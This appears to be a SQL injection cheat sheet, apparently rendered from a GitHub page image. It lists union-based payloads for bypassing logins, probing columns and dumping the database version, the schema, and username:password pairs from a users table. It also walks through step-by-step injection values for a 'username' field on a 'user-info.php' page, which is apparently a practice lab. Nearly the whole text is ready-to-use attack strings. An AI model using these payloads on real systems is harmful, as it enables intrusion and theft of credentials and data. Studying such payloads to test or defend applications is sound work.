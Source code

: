 - Some useful payloads for Union Based SQL Injection

```SQL
' or 1=1#
1' ORDER BY 10#
1' UNION SELECT version(),2#
1' UNION SELECT version(),database()#
1' UNION SELECT version(),user()#
1' UNION ALL SELECT table_name,2 from information_schema.tables#
1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#
1' UNION ALL SELECT concat(user,char(58),password),2 from users#
```

## 3. Attempt to determine database server brand

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,VERSION() AS username,null,null --
```

## 4. Formulate and test query

## 5. Attempt to determine database name

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,DATABASE() AS username,null,null --
```

## 6. Attempt to determine schema name

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,table_schema AS username,null,null from INFORMATION_SCHEMA.TABLES--
```

|Database type | Query|
|-|-|
|Microsoft, MySQL | SELECT @@version|
|Oracle | SELECT * FROM v$version|
|PostgreSQL | SELECT version()|
